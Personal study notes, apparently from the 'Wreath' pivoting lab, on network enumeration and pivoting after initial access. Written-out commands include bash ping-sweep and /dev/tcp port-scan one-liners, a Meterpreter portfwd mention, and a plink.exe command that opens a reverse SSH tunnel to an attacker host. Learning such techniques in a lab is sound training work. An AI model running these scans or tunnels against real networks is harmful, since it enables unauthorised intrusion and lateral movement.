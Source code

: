 Metasploit Framework Meterpreter command can be used to create a port forward: portfwd

# The more we know about our target, the more options we have available to us.
Enumeration:
	Using material found on the machine. The hosts file or ARP cache, for example
	Using pre-installed tools
	Using statically compiled tools
	Using scripting techniques
	Using local tools through a proxy
These are written in the order of preference. Using *local tools through a proxy is incredibly slow*, so should only be used as a last resort.  Ideally we want to take advantage of pre-installed tools on the system (Linux systems sometimes have Nmap installed by default, for example). This is an example of Living off the Land (LotL) -- a good way to minimise risk. Failing that, it's very easy to transfer a static binary, or put together a simple ping-sweep tool in Bash (which we'll cover below).

```bash
arp -a
ip-10-200-72-1.eu-west-1.compute.internal (10.200.72.1) at 02:5d:46:44:8b:25 [ether] on eth0
```

The following Bash one-liner would perform a full ping sweep of the 192.168.1.x network:
for i in {1..255}; do (ping -c 1 192.168.1.${i} | grep "bytes from" &); done

If you suspect that a host is active but is blocking ICMP ping requests, you could also check some common ports using a tool like netcat.
Port scanning in bash can be done (ideally) entirely natively:
for i in {1..65535}; do (echo > /dev/tcp/192.168.1.1/$i) >/dev/null 2>&1 && echo $i is open; done

I guess wreath block connection outside the network so you can't directly connect to it, like if you want to create a port forwarding, you have to do it reverse, on it machine. I mean i can't explain why ssh with private key encouter error invalid format so, that's for today!

# plink.exe
Plink.exe is a Windows command line version of the PuTTY SSH client. Now that Windows comes with its own inbuilt SSH client, plink is less useful for modern servers; however, it is still a very useful tool, so we will cover it here.

Generally speaking, Windows servers are unlikely to have an SSH server running so our use of Plink tends to be a case of transporting the binary to the target, then using it to create a reverse connection. This would be done with the following command:
```bash
cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
```
The cmd.exe /c echo y at the start is for non-interactive shells 

Note that any keys generated by ssh-keygen will not work properly here. You will need to convert them using the puttygen tool, which can be installed on Kali using *sudo apt install putty-tools*. After downloading the tool, conversion can be done with:
```bash
puttygen KEYFILE -o OUTPUT_KEY.ppk
```
The resulting .ppk file can then be transferred to the Windows target and used in exactly the same way as with the Reverse port forwarding (*despite the private key being converted*, it will still work perfectly with the *same public key* we added to the authorized_keys file before).

